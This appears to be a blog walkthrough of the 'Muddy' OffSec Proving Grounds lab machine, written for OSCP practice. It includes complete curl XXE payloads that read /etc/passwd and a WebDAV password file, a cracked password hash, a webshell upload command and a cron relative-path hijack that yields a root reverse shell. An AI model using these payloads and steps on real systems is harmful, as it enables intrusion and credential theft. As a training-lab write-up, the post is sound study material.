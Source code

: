 ```yaml
---
title: Muddy Box on OffSec Proving Grounds - OSCP Preparation.
tags: [oscp easy box, PG easy box, enumeration, webdav, misc, privilege escalation, cronjob, relative path]
categories: [OSCP, Proving Grounds]
comments: true
date: 2022-01-21 11:33:00
---
```


Hello,

We are going to exploit one of [OffSec Proving Grounds](https://portal.offensive-security.com/proving-grounds/play) Medium machines which called `Muddy` and this post is not a fully detailed walkthrough, I will just go through the important points during the exploit process.

## Enumeration:
- Nmap:

```bash
○ nmap -sC -sV -Pn -oN nmap 192.168.151.161                                                                                                                                               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-05 13:44 CET
Nmap scan report for 192.168.151.161
Host is up (0.15s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
25/tcp   open  smtp       Exim smtpd
| smtp-commands: muddy Hello nmap.scanme.org [192.168.49.151], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://muddy.ugc/
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  tcpwrapped
808/tcp  open  tcpwrapped
8888/tcp open  http       WSGIServer 0.1 (Python 2.7.16)
|_http-server-header: WSGIServer/0.1 Python/2.7.16
|_http-title: Ladon Service Catalog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.33 seconds
```

- Running `ffuf` against port `80`:
	* Directory: `/webdav`, Status: `401`

- Port `8888` is running `Ladon Service`:
![image](/assets/img/sample/pg-muddy/port8888.png)

- Searchsploit:

```bash
 ○ searchsploit Ladon                   
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Ladon Framework for Python 0.9.40 - XML External Entity Expansion                                                                                                               | xml/webapps/43113.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Exploit (curl command):

```bash
$ curl -s -X $'POST' \              
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```


- The exploit will read the `/etc/passwd` file on the target.

The Response:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns="urn:muddy" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <SOAP-ENV:Body SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <ns:checkoutResponse>
      <result>Serial number: root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinsystemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:104:110::/nonexistent:/usr/sbin/nologinsshd:x:105:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinmysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/falseian:x:1000:1000::/home/ian:/bin/shDebian-exim:x:107:114::/var/spool/exim4:/usr/sbin/nologin_rpc:x:108:65534::/run/rpcbind:/usr/sbin/nologinstatd:x:109:65534::/var/lib/nfs:/usr/sbin/nologin</result>
    </ns:checkoutResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

- Since we have a `/webdav` directory on port `80`  let's try and read some files from it.

The webdav password file can be found on: `/var/www/html/webdav/passwd.dav`:

```bash
○ curl -s -X $'POST' \                      
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | grep -iPo '(?<=<result>)(.*)(?=</result>)'
Serial number: administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0
```

- The Content of `passwd.dav` is: `administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0`
- Cracking the hash using `john`:

```bash
○ cat hash.txt 
$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0

○ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                     
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sleepless        (?)     
1g 0:00:00:00 DONE (2022-01-05 15:09) 1.612g/s 113032p/s 113032c/s 113032C/s softball30..ramarama
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
- Creds:
	* User: `administrant`
	* Pass: `sleepless`


- Upload a webshell to `webdav` using curl command:

```bash
○ curl -XPUT -d @shell.php http://muddy.ugc/webdav/shell.php -u 'administrant:sleepless'
```

![image](/assets/img/sample/pg-muddy/upload.png)

- RCE:

![image](/assets/img/sample/pg-muddy/rce.png)


## Privilege Escalation:
- LinPEAS:

![image](/assets/img/sample/pg-muddy/linpeas.png)

### Exploit linux relative path:
* Generate a [Payload](https://bing0o.github.io/posts/reverse-shell-generator/) and Starting a local netcat listener:

![image](/assets/img/sample/pg-muddy/payload.png)

* Create an executable file named `netstat` at `/dev/shm` with the content of our payload:

![image](/assets/img/sample/pg-muddy/netstat.png)


- We got a reverse shell connection as `root`:

![image](/assets/img/sample/pg-muddy/root.png)


Happy Hacking!